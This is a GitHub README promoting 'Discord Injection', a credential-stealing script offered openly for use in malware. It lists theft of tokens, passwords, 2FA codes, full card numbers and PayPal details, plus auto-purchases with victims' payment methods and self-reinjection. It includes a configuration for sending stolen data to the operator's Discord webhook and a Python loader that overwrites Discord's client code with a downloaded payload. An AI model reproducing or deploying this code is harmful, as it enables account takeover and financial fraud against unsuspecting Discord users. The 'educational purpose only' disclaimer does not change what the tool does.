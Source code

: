 <h1 align="center">
  Discord Injection 💉
</h1>

<h2 align="center">
  Steal all critical info from victims!
</h2>

<p align="center">
  Discord Injection is a simple .js script that you can use for your own malware to inject into discord which comes with many features!
</p>

<p align="center"> 
  <kbd>
<img src="https://raw.githubusercontent.com/Rdimo/images/master/Discord-Injection/discord%20atom.png"></img>
  </kbd>
</p>

<p align="center">
  <img src="https://img.shields.io/github/languages/top/Rdimo/Discord-Injection?style=flat-square" </a>
  <img src="https://img.shields.io/github/last-commit/Rdimo/Discord-Injection?style=flat-square" </a>
  <img src="https://sonarcloud.io/api/project_badges/measure?project=Rdimo_Injection&metric=ncloc" </a>
  <img src="https://img.shields.io/github/stars/Rdimo/Discord-Injection?color=7F9DE0&label=Stars&style=flat-square" </a>
  <img src="https://img.shields.io/github/forks/Rdimo/Discord-Injection?color=7F9DE0&label=Forks&style=flat-square" </a>
</p>

##### ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ [🌌・Discord](https://cheataway.com) ⋮  [💉・Setting up the injection](https://github.com/Rdimo/Discord-Injection#configure-discord-injection) ⋮ [💻・License](https://github.com/Rdimo/Discord-Injection#license) ⋮ [📜・ChangeLog](https://github.com/Rdimo/Discord-Injection#changelog)

<h2 align="center">
  Discord-Injection was made by

  Love ❌ code ✅
</h2>

---

## :fire: Features

✔ Customizable \
✔ Obfuscated (not advanced but the best it can go cuz of string replacement) \
✔ If Injection got removed it injects again! \
✔ Works on both Windows and Darwin! \
✔ Auto buy nitro! (toggleable) \
✔ Pings on info stolen! (toggleable) \
✔ Discord 2FA Codes for accounts with 2FA enabled.  \
✔ Disables login thru QR code! \
✔ Grabs Token, Nitro status, Billing Status + more! \
✔ Grabs Email & Password for their account. (updates if they change it) \
✔ Grabs whole credit card (if they enter one while injection is in) \
✔ Notifies when paypal account has been added!

--- 

## 🚀・Configure Discord Injection!

You'll need [Git](https://git-scm.com) to start off!
```sh-session
git@2.17.1 or higher
```

### 1. From your command line, clone and configure discord-injection:

```bash
# Clone this repository
$ git clone https://github.com/rdimo/Discord-injection.git

```
Copy the raw url of the [injection](./injection.js) and then paste it in your code

[forking](https://github.com/Rdimo/Discord-injection/fork) this repo is also a viable way but make sure to go into the code and change the config to your preferences! ⇣⇣⇣

```javascript
const config = {
    auto_buy_nitro: true, //automatically buys nitro when the victim adds credit card or paypal account
    ping_on_run: false, //sends whatever value you have in ping_val when you get a run/login
    ping_val: '@everyone', //change to @here or <@ID> to ping specific user if you want, will only send if ping_on_run is true
    embed_name: 'Discord Injection', //name of the webhook thats gonna send the info
    embed_icon: 'https://raw.githubusercontent.com/Rdimo/images/master/Discord-Injection/discord atom.png'.replace(/ /g,'%20'), //icon for the webhook thats gonna send the info
    embed_color: 8363488, //color for the embed, needs to be hexadecimal (just copy a hex and then use https://www.binaryhexconverter.com/hex-to-decimal-converter to convert it)
    webhook: '%WEBHOOK%', //your discord webhook there obviously

    ... //rest of the config you should NOT touch
};
```
> Don't quite understand how to set it up? [Click me!](https://github.com/Rdimo/Discord-Injection#want-to-use-it-but-dont-know-shit-about-coding)

## 🎈・Code example
Example of how you can implement this injection into your own malware
```py
import os
import requests
webhook = 'https://discord.com/apwebhooks/123456789/abcdefghijklmnopqrstuvwxyz'

def inject():
    for root, dirs, files in os.walk(os.getenv('localappdata')):
        for name in dirs:
            if "discord_desktop_core-" in name:
                try:
                    directory_list = os.path.join(root, name+"\\discord_desktop_core\\index.js")
                except FileNotFoundError:
                    pass
                try:
                    os.mkdir(os.path.join(root, name+"\\discord_desktop_core\\initiation"))
                except FileExistsError:
                    pass
                f = requests.get("https://raw.githubusercontent.com/Rdimo/Discord-Injection/master/injection.js").text.replace("%WEBHOOK%", webhook)
                with open(directory_list, 'w', encoding="utf-8") as index_file:
                    index_file.write(f)
    for root, dirs, files in os.walk(os.getenv('appdata')+"\\Microsoft\\Windows\\Start Menu\\Programs\\Discord Inc"):
        for name in files:
            discord_file = os.path.join(root, name)
            os.startfile(discord_file)

if __name__ == "__main__":
    inject()
```

## 👴・Want to use it but don't know shit about coding?
No worries, [Hazard-Token-Grabber-V2](https://github.com/Rdimo/Hazard-Token-Grabber-V2) is a stealer that uses this injection + steals more!

## 🤝・Contributing

Any ideas on how to improve the injection? Or just think you got something you want to see being added? [Open a new issue](https://github.com/rdimo/Discord-injection/issues)!

Found a bug? please please please [Open a new issue](https://github.com/rdimo/Discord-injection/issues) and tell me about it so I can fix it asap

## 🎉・Upcoming/Todo
- Grab ip, name etc...
- fix bugs
- more settings

## :seedling:・Inspiration
Discord-Injection is inspired by [stanleys](https://github.com/Stanley-GF) injection but has been upgraded quite alot since

- [his injection](https://github.com/Stanley-GF/Arizona/blob/main/src/injection/injection-clean.js)

## 📄・License 

This project is licensed under the GNU General Public License v3.0 License - see the [LICENSE.md](./LICENSE) file for details

・Educational purpose only and all your consequences caused by you actions is your responsibility 

・Selling this ==**Free**== injection is forbidden

・If you make a copy of this/or fork it, it ==**must**== be open-source and have credits linking to this repo

## 💭・ChangeLog
```diff
+ Added BetterDiscord support
+ Added dead code into obfuscation to protect even more
- Accidently removed status code checker
```
